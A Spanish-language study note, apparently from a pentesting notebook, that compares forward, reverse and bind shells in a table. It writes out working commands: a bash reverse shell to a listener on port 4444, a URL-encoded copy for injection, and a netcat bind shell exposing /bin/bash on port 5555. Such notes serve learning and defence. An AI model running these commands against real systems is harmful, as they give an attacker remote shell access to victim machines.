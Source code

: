 ¡Claro! Vamos a mejorar el apunte de diferencias entre **Forward Shell**, **Reverse Shell** y **Bind Shell**, agregando una explicación clara de cada concepto y comparándolos de manera sencilla.

---

### Conceptos Básicos

1. **Forward Shell (Shell Directa)**:
   - Es una conexión directa desde el atacante hacia la máquina víctima.
   - El atacante inicia la conexión (por ejemplo, usando SSH).
   - Es útil cuando el atacante tiene acceso directo a la máquina víctima.

2. **Reverse Shell (Shell Inversa)**:
   - Es una conexión desde la máquina víctima hacia el atacante.
   - La víctima inicia la conexión hacia el atacante, quien está escuchando en un puerto específico.
   - Es útil cuando la víctima está detrás de un firewall o NAT, lo que dificulta que el atacante se conecte directamente.

3. **Bind Shell (Shell de Enlace)**:
   - La máquina víctima abre un puerto en su sistema y espera conexiones entrantes.
   - El atacante se conecta a ese puerto para obtener una shell.
   - Es útil cuando el atacante puede conectarse directamente a la máquina víctima, pero no tiene credenciales para autenticarse (por ejemplo, a través de SSH).

---

### Comparación entre Forward Shell, Reverse Shell y Bind Shell

| Característica          | Forward Shell                          | Reverse Shell                          | Bind Shell                             |
|-------------------------|----------------------------------------|----------------------------------------|----------------------------------------|
| **Dirección de Conexión** | El atacante se conecta a la víctima.   | La víctima se conecta al atacante.     | La víctima abre un puerto y el atacante se conecta a él. |
| **Iniciador de Conexión** | Atacante.                              | Víctima.                               | Atacante.                              |
| **Uso Común**            | Cuando el atacante tiene acceso directo a la víctima (por ejemplo, a través de SSH). | Cuando la víctima está detrás de un firewall o NAT y el atacante no puede conectarse directamente. | Cuando el atacante puede conectarse directamente a la víctima pero no tiene credenciales para autenticarse. |
| **Facilidad de Uso**     | Más sencillo de configurar y usar.     | Requiere que el atacante esté escuchando en un puerto específico. | Requiere que la víctima abra un puerto y el atacante se conecte a él. |
| **Detección**            | Más fácil de detectar, ya que el atacante inicia la conexión. | Menos detectable, ya que la conexión la inicia la víctima. | Detectable, ya que la víctima abre un puerto que puede ser escaneado. |
| **Ejemplo de Comando**   | `ssh usuario@[ip_victima]`             | `bash -c "bash -i >& /dev/tcp/[ip_atacante]/[puerto] 0>&1"` | `nc -lvp [puerto] -e /bin/bash` (en la víctima). |

---

### Ejemplo Práctico de Forward Shell

Supongamos que el atacante tiene acceso a la máquina víctima a través de SSH. El comando para obtener una shell sería:

```bash
ssh usuario@192.168.1.50
```

Una vez conectado, el atacante tendría una shell directa en la máquina víctima.

---

### Ejemplo Práctico de Reverse Shell

Supongamos que la dirección IP de la máquina atacante es `192.168.1.100` y el puerto en el que está escuchando es `4444`. El comando completo sería:

```bash
bash -c "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1"
```

Y si lo estás inyectando en una URL, quedaría así:

```bash
bash -c "bash -i >%26 /dev/tcp/192.168.1.100/4444 0>%261"
```

---

### Ejemplo Práctico de Bind Shell

Supongamos que la máquina víctima abre el puerto `5555` y espera conexiones entrantes. El comando en la víctima sería:

```bash
nc -lvp 5555 -e /bin/bash
```

Luego, el atacante se conecta a ese puerto desde su máquina:

```bash
nc 192.168.1.50 5555
```

Una vez conectado, el atacante tendría una shell en la máquina víctima.

---

### Resumen

- **Forward Shell**: El atacante se conecta directamente a la víctima. Es más sencillo de configurar pero más fácil de detectar.
- **Reverse Shell**: La víctima se conecta al atacante. Es útil cuando la víctima está detrás de un firewall o NAT y es menos detectable.
- **Bind Shell**: La víctima abre un puerto y espera conexiones entrantes. El atacante se conecta a ese puerto para obtener una shell. Es útil cuando el atacante puede conectarse directamente pero no tiene credenciales para autenticarse.

[[Reverse Shell]]
[[Foward Shell]]
[[Bind Shell]]